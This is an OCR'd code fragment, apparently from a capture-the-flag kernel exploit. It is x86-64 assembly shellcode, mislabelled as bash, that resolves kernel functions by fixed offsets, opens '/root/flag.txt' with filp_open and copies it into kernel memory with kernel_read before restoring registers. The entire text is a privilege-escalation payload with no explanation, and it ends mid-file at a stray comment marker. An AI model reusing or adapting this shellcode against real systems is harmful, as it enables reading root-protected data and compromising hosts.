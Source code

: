 ```bash
    // filp_open
    mov r11, r12
    add r11, 0x292420

    // push /root/flag.txt
    mov rax, 0x7478742e6761
    push rax
    mov rax, 0x6c662f746f6f722f
    push rax
    mov rdi, rsp

    // O_RDONLY
    mov rsi, 0

    call r11

    // r10 is filp_ptr
    mov r10, rax

    // kernel_read
    mov r11, r12
    add r11, 0x294c70

    // writeable kernel address
    mov r9, r12
    add r9, 0x18ab000

    mov rdi, r10
    mov rsi, r9
    mov rdx, 0x100
    mov rcx, 0

    call r11

    pop rax
    pop rax

    pop rsi
    pop rdi
    pop r13
    pop r14
    pop r12
    pop r11
    pop r10
    pop r9
    pop rdx
    pop rcx
    pop rbx
    pop rax
*/
```
